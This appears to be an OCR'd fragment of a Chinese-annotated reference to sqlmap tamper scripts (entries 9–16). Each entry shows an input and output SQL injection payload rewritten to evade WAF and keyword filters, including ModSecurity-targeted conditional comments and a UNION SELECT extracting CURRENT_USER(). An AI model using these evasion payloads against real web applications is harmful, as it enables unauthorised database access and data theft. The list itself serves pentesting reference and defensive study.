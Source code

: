     (9) charunicodeencode.py 对未进行url编码的字符进行unicode编码 
    Example: 
    Input: SELECT FIELD%20FROM TABLE 
    Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045'
    Requirement: 
    ASP 
    ASP.NET 

    (10) equaltolike.py 以”like”替代”=“ 
    Example: 
    Input: SELECT FROM users WHERE id=1 
    Output: SELECT FROM users WHERE id LIKE 1 

    (11) halfversionedmorekeywords.py在每个关键字前添加条件注释 
    Example: 
    Input: value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa 
    Output: value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND 'QDWa'='QDWa 
    Requirement: 
    MySQL < 5.1 

    (12) ifnull2ifisnull.py 以”IF(ISNULL(A), B, A)”替换”IFNULL(A, B)” 
    Example: 
    Input: IFNULL(1, 2) 
    Output: IF(ISNULL(1), 2, 1) 
    Requirement: 
    MySQL 
    SQLite (possibly) 
    SAP MaxDB (possibly) 

    (13) modsecurityversioned.py 条件注释 
    Example: 
    Input: 1 AND 2>1-- 
    Output: 1 /*!30000AND 2>1*/-- 
    Requirement: 
    MySQL 

    (14) modsecurityzeroversioned.py 条件注释，0000 
    Example: 
    Input: 1 AND 2>1-- 
    Output: 1 /*!00000AND 2>1*/-- 
    Requirement: 
    MySQL 

    (15) multiplespaces.py 添加多个空格 
    Example: 
    Input: UNION SELECT 
    Output:  UNION   SELECT 

    (16) nonrecursivereplacement.py 可以绕过对关键字删除的防注入（这个我也不知道怎么说好，看例子。。。） 
    Example: 
    Input: 1 UNION SELECT 2-- 
    Output: 1 UNUNIONION SELSELECTECT 2-- 
